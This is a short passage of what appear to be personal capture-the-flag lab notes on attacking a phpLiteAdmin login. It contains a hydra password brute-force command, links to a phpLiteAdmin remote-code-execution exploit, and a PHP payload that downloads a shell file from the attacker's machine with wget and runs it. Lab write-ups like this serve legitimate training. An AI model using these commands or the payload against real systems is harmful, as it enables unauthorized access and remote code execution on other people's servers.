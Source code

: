 try bruteforce, got passwrd: password123.

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.129.30.249 https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password" -V
```

![image-20221004195553761](./images/image-20221004195553761.png)



# Exploitation

try phpliteadmin rce

https://www.exploit-db.com/exploits/24044 

https://github.com/F-Masood/PHPLiteAdmin-1.9.3---Exploit-PoC

create db, poc.php. 

create table, shell, 1 feild. 

```bash
<?php system("wget http://10.10.14.62/phpshell.txt -O /tmp/shell.php;php /tmp/shell.php");?>
```

![image-20221006101936191](./images/image-20221006101936191.png)
